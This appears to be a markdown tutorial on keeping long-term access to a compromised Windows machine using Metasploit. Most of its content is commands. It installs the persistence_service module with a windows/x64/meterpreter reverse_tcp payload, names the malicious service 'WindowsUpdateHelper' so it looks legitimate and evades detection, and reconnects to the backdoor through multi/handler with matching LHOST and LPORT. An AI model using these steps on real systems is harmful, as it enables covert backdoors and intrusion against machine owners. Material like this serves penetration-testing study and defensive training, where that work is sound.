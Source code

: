 # Establishing Persistence on Windows

Persistence = techniques used by adversaries to **maintain access** even after:  
- Restarts  
- Credential changes  
- Disconnections  

Getting initial access is not enough. For **long-term control**, persistence is key.

---

## Steps to Persistence

### 1. Initial Exploitation
- Exploit a vulnerable service running on the target machine.  
- Get a **meterpreter session**.  
- Perform privilege escalation until you gain **Administrator-level access**.  
  - Persistence modules usually require **admin rights** to install services or modify registry.  

```bash
> getuid                 # confirm privileges
> background             # send session to background
```


### 2. Search for Persistence Modules

```bash
meterpreter > search platform:windows persistence
```

* Example useful modules:

  * `exploit/windows/local/persistence_service` (most useful)
  * `exploit/windows/local/registry_persistence`
  * `post/windows/manage/persistence_exe`

---

### 3. Why `persistence_service` is Most Useful?

* Installs a malicious service that runs automatically at startup.
* Services are **hard to detect** (especially if given a legitimate-looking name).
* Survives reboots and user logouts.
* Runs with SYSTEM privileges if installed by an Administrator.

---

### 4. Configure the Module

```bash
use exploit/windows/local/persistence_service
set payload windows/x64/meterpreter/reverse_tcp
show options
set SERVICE_NAME "WindowsUpdateHelper"   # Make name look legit!
set session 1
```

* **Important:**
  Use the correct payload architecture (**x86 or x64**) depending on target system.

---

### 5. Deploy Persistence

```bash
exploit
```

* This will install the service and bind it to our payload.

---

### 6. Kill Current Session (Demo)

```bash
sessions -K
```

* Simulates a disconnect/loss of access.

---

### 7. Reconnect with Multi/Handler

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <same as before>
set LPORT <same as before>
run
```

⚠️ **VERY IMPORTANT:** LHOST and LPORT must match exactly the values used when installing persistence service. If not, the backdoor will fail.

---

### 8. Persistence Confirmed

* Even after killing sessions or restarting msfconsole, you can always reconnect by re-running the multi/handler with the same payload, LHOST, and LPORT.
* This ensures **long-term access** without re-exploiting the system.

---

